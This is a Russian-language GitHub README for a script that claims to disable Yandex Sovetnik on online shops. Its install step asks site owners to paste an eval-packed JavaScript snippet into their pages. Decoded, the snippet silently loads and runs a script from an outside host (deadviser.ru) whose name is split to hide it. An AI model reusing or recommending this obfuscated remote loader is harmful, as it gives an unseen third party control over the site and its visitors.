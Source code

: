# kick_sovetnik
KickSovetnik поможет вам отключить Яндекс-Советник на вашем интернет магазине.

<img src="https://camo.githubusercontent.com/c8ad296cbd59fcd2c57b7b169909528dd00210a5/687474703a2f2f692e67697068792e636f6d2f456533556a46687574687730552e676966">

Этот скрипт поможет заблокировать и полностью отключить Яндекс-Советник на вашем сайте. 
 
<h2>Установка</h2>

Воспользуйте любым из приведенных ниже способов, что установить скрипт блокировки Яндекс-Советника:

Скачайте и скопируйте в папку со своими скриптами следующий скрипт (или добавьте в общий файл с вашими скриптами):

https://raw.githubusercontent.com/wgoot/kick_sovetnik/master/src/index.js
Затем вставьте этот скрипт на ваш сайт (в начало <head>), этот скрипт должен грузится синхронно, до полной загрузки DOM.

eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('6 1=2.a("c");1.3("7","8/9"),1.3("4","4"),1.3("b","//5"+"d.e/f/?"+g.h()),(2.i("j")[0]||2.k).l(1);',22,22,'|s|document|setAttribute|async|dea|var|type|text|javascript|createElement|src|script|dviser|ru|free|Math|random|getElementsByTagName|html|body|appendChild'.split('|'),0,{}));
